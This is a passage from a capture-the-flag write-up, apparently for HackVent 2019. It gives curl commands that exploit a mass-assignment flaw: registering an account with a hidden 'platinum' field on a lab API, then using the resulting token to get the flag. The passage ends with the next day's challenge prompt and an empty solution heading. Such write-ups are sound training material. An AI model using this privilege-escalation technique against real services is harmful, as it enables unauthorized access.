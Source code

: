 Go and try it here: http://whale.hacking-lab.com:10101

### Solution

I use the API Doc to create an account and tested some stuff but that doesn't help.
I try to create an admin account with different options and then I get this response.

```
curl -s -X POST -H 'Content-Type: application/json' http://whale.hacking-lab.com:10101/fsja/register --data '{"username":"gfdsa", "password": "passwordpassword", "admin":true}'

Unrecognized field "admin" (class ch.dkuhn.hv19.fsja.model.User), not marked as ignorable (3 known properties: "password", "platinum", "username"])
at [Source: org.glassfish.jersey.message.internal.ReaderInterceptorExecutor$UnCloseableInputStream@27a6c4c6; line: 1, column: 63] (through reference chain: ch.dkuhn.hv19.fsja.model.User["admin"])

```

I create a user with "paltinum"=true and login with that user. I get the flag with the next joke.

```
curl -s -X POST -H 'Content-Type: application/json' http://whale.hacking-lab.com:10101/fsja/register --data '{"username":"gfdsa", "password": "passwordpassword", "platinum":true}'

curl -s -X POST -H 'Content-Type: application/json' http://whale.hacking-lab.com:10101/fsja/login --data '{"username":"gfdsa", "password": "passwordpassword"}'

curl -X GET "http://whale.hacking-lab.com:10101/fsja/random?token=eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjp7InVzZXJuYW1lIjoiZ2Zkc2EiLCJwbGF0aW51bSI6dHJ1ZX0sImV4cCI6MTU3NjA1Njk2OC42OTQwMDAwMDB9.ESixd9xDQET3SYe418W7Uc5UYPQvHAg42WxWnyY7oIQ"

{"joke":"Congratulation! Sometimes bugs are rather stupid. But that's how it happens, sometimes. Doing all the crypto stuff right and forgetting the trivial stuff like input validation, Hohoho! Here's your flag: HV19{th3_cha1n_1s_0nly_as_str0ng_as_th3_w3ak3st_l1nk}","author":"Santa","platinum":true}
```

## Day 13

### Challenge

Switzerland's national security is at risk. As you try to infiltrate a secret spy facility to save the nation you stumble upon an interesting looking login portal.
Can you break it and retrieve the critical information?

### Resources

Facility: http://whale.hacking-lab.com:8888/trieme/
[HV19.13-NotesBean.java.zip](https://github.com/sebastianbeck/ctf_priv/blob/master/hackvent19/flag13/HV19.13-NotesBean.java.zip)

### Solution
